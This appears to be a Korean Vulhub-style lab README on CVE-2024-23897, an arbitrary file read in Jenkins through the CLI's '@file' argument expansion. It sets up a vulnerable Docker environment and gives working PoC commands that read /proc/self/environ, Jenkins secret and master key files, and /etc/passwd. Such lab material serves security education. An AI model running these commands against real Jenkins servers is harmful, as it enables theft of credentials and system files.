





# CLI를 통한 Jenkins 임의 파일 읽기 취약점 (CVE-2024-23897)
> 본 프로젝트는 WHS3기 프로젝트의 일부로, Vulhub 한국어로 번역하고 구현하여 한국어판 vulhub를 제작하고자 하는 뜻에 합하여 제작하게 되었습니다. 
### Jenkins
Jenkins는 오픈소스 자동화 서버로 주로 지속적 통합/지속적 배포 (CI/CD)를 지원하는 도구이다.    
**발견된 취약점**    
Jenkins는 CLI 명령을 처리할 때 args4j 라이브러리를 사용하여 Jenkins 컨트롤러에서 명령 인수와 옵션을 파싱한다.    
이 명령 파서는 인수의 @파일 경로 앞에 오는 문자를 파일 내용으로 바꾸는 기능(expandAtFiles)을 가지고 있는데, 이를 통해 공격자는 Jenkins 서버에서 임의의 파일을 읽을 수 있다.     
**args4j**    
명령줄 옵션/인수를 쉽게 구문 분석할 수 있는 작은 Java 클래스 라이브러리
### target
Jenkins 2.441 이전 버전
## 취약한 환경 구성하기
Jenkins server 2.441를 실행시킨다.    
```
docker compose up -d
 ```    
위의 명령어를 실행시키면 서버에 접속할 수 있게 된다
``` http://localhost:8080/ ``` or ``` http://본인-ip주소:8080/ ```
        
**접속아이디/패스워드** : id: 'admin' passwd: 'vulhub'           
**컨테이너 접속하기**        
 ```
docker ps -a #위의 명령어로 실행시킨 컨테이너 이름 확인하기
sudo docker exec -it {container ID} /bin/bash #컨테이너 bin/bash로 들어가기
```

## PoC
1. ```jenkins-cli.jar```을 해당 링크, ```http://localhost:8080/jnlpJars/jenkins-cli.jar```로부터 다운로드한다.
```
apt update #패키지 설치를 위한 준비
apt upgrade
apt install wget #wget 패키지 설치
wget 'http://localhost:8080/jnlpJars/jenkins-cli.jar' #해당 링크로 부터 jenkins-cli.jar 설치
```
2. ```/proc/self/environ``` 파일을 읽는다. ```JENKINS_HOME=/var/jenkins_home```
```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/proc/self/environ"
```

3. 이후, 민감한 파일을 얻을 수 있다. ex) 'secrets.key' or 'master.key'
```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secret.key"
```

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secrets/master.key"
```

- 익명 읽기 액세서 허용이 켜져 있었기 때문에 전체 내용을 읽을 수 있었다.
```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http connect-node "@/etc/passwd"
```

## 참고문헌
<https://github.com/vulhub/vulhub/tree/master/jenkins/CVE-2024-23897#vulnerable-environment>
<https://www.jenkins.io/security/advisory/2024-01-24/#SECURITY-3314>
<https://mp.weixin.qq.com/s/2a4NXRkrXBDhcL9gZ3XQyw>
<https://digitalbourgeois.tistory.com/227>

